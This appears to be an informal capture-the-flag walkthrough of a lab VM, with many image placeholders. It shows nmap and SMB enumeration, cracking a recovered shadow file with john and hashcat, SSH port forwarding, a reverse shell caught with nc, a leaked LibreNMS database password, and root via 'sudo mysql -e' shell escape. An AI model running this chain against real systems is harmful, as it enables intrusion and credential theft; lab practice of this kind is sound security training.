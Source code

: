 
nmap -sV -sC 192.168.99.130 -oN results.txt



searchsploit -m 36742     => searchspoilt ka har twe ko copy loke dar


I try to check manually to exploit service , Finally i found => site command

![[Pasted image 20230109230012.png]]


I saw smb service is running so i enuman like this 

![[Pasted image 20230110215524.png]]

I got log file here 

![[Pasted image 20230110221642.png]]

In log file , we got it here 

![[Pasted image 20230110221747.png]]

and finally we exploit it.

![[Pasted image 20230110221544.png]]

Here is our exploit

![[Pasted image 20230110221827.png]]


Here is our second exploit from this path =>  /var/backups/shadow.bak  => get from log file
![[Pasted image 20230110222223.png]]

Here is username and password !

![[Pasted image 20230110225447.png]]

Let play with fun

using john  
![[Pasted image 20230110225606.png]]


Using hashcat  =>   That's too awesome

hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

1800  => dar ka 

![[Pasted image 20230110230152.png]]


I got it Lol!

![[Pasted image 20230110230811.png]]


=> ssh login 
username => aeolus
password => sergioteamo


---

Rooting Rootin Rooting

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null    -> for suid  -> but see nothing 

uname -a 

cat /etc/*release  

gcc  -> for c


find / -user cronus -perm -4000 -exec ls -ldb {} \; 2>/dev/null   -> cuz we see cronus user in home 


we saw this two are comminunicate  haha

![[Pasted image 20230122230536.png]]


but we can do nothing so we use linpeas -> auto enumation tool 

i download linpeas with wget command 

and give full permission  -> chomd 777 linpeas barnyar

and then run ./linpeas

we found this one with linpeas
![[Pasted image 20230122232723.png]]

curl http://127.0.0.1:8080     => we check with this   

-> we are port forwarding  (Local  port forwarding)

ssh -L 8080:127.0.0.1:8080 aeolus@192.168.99.130

We add and run this machine with this exploit payload -> and using nc -lvp haha
![[Pasted image 20230123000916.png]]

and then check the cat config.php file we got this one

![[Pasted image 20230123001102.png]]

### Database config
$config['db_host'] = 'localhost';
$config['db_port'] = '3306';
$config['db_user'] = 'librenms';
$config['db_pass'] = 'VLby8dGg4rvw33sg';
$config['db_name'] = 'librenms';
$config['db_socket'] = '';
  
----> upper one ka har ka copy lot ya aung

we check with sudo -l

![[Pasted image 20230123001359.png]]

and then go to GTFO bin and search mysql  and then copy this one

```
sudo mysql -e '\! /bin/sh'
```

![[Pasted image 20230123001512.png]]

!!!!! Dump bro we got root

![[Pasted image 20230123001719.png]]
